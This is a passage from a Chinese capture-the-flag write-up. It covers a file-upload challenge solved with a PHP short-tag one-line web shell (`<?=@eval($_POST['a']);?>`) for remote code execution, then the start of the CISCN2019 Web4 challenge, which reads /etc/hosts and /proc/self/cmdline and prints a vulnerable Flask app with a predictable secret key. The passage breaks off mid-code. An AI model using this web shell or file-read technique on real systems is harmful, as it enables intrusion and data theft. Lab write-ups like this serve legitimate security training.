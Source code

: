 ```python
      flag += chr(j)
      print("[+]:"+flag)
```

`admin 953cb63f6d5d78d0cffb`登陆后有个上传文件功能

有一个上传文件的功能，文件名会被放在`log.php`里面，使用短标签绕过过滤传一句话木马`<?=@eval($_POST['a']);?>`

rce得到flag

## [CISCN2019 华东南赛区]Web4

打开发现

![image-20230104163835289](ciscn.assets/image-20230104163835289.png)

传`http://127.0.0.1`没有回显，不像ssrf，直接传`/etc/hosts`回显了文件

读 **/prof/self/cmdline**

```
/usr/local/bin/python/app/app.py
```

读**app.py**

```python
# encoding:utf-8
import re, random, uuid, urllib
from flask import Flask, session, request

app = Flask(__name__)
random.seed(uuid.getnode())
app.config['SECRET_KEY'] = str(random.random()*233)
app.debug = True

@app.route('/')
def index():
    session['username'] = 'www-data'
    return 'Hello World! <a href="/read?url=https://baidu.com">Read somethings</a>'

@app.route('/read')
def read():
    try:
        url = request.args.get('url')
        m = re.findall('^file.*', url, re.IGNORECASE)
        n = re.findall('flag', url, re.IGNORECASE)
        if m or n:
            return 'No Hack'
        res = urllib.urlopen(url)
        return res.read()
    except Exception as ex:
        print str(ex)
    return 'no response'

@app.route('/flag')
def flag():
    if session and session['username'] == 'fuck':
        return open('/flag.txt').read()
    else:
```